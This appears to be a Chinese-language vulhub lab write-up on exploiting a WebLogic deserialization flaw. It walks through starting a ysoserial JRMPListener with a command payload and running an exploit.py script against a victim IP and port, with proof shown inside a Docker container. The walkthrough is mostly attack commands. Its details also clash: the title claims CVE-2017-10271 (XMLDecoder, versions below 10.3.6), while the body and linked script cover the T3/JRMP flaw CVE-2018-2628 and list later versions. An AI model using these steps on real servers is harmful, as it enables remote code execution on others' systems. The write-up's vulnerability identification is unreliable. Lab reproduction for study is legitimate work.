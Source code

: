 # Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞（CVE-2017-10271）

###### by ADummy

### 0x00利用路线

​			启动一个JRMP Server--->执行exp文件--->命令执行

### 0x01漏洞介绍			

​			在 WebLogic 里，攻击者利用其他rmi绕过weblogic黑名单限制，然后在将加载的内容利用readObject解析，从而造成反序列化远程代码执行该漏洞，该漏洞主要由于T3服务触发，所有开放weblogic控制台7001端口，默认会开启T3服务，攻击者发送构造好的T3协议数据，就可以获取目标服务器的权限。

##### 影响版本

```
 Weblogic 10.3.6.0
 Weblogic 12.1.3.0
 Weblogic 12.2.1.2
 Weblogic 12.2.1.3
```

### 0x02漏洞复现

快速检测`利用nmap --script=weblogic-t3-infi.nse`

首先下载ysoserial，并启动一个JRMP Server：

```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
```

其中，`[command]`即为我想执行的命令，而`[listen port]`是JRMP Server监听的端口。

然后，使用[exploit.py](https://github.com/ADummmy/vulhub_Writeup/blob/main/code/Weblogic_WLS_Core_Components_CVE_2018_2628.py)脚本，向目标Weblogic（`http://your-ip:7001`）发送数据包：

```
python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
```

其中，`[victim ip]`和`[victim port]`是目标weblogic的IP和端口，`[path to ysoserial]`是本地ysoserial的路径，`[JRMPListener ip]`和`[JRMPListener port]`第一步中启动JRMP Server的IP地址和端口。`[JRMPClient]`是执行JRMPClient的类，可选的值是`JRMPClient`或`JRMPClient2`。

exploit.py执行完成后，执行`docker-compose exec weblogic bash`进入容器中，可见/tmp/success已成功创建。

![Weblogic_WLS_Core_Components_反序列化命令执行漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Weblogic_WLS_Core_Components_反序列化命令执行漏洞_1.png)



![Weblogic_XMLDecoder_反序列化漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Weblogic_WLS_Core_Components_反序列化命令执行漏洞_2.jpg)



### 0x03参考资料

https://blog.csdn.net/csacs/article/details/87122472

poc：https://github.com/ADummmy/vulhub_Writeup/blob/main/code/Weblogic_WLS_Core_Components_CVE_2018_2628.py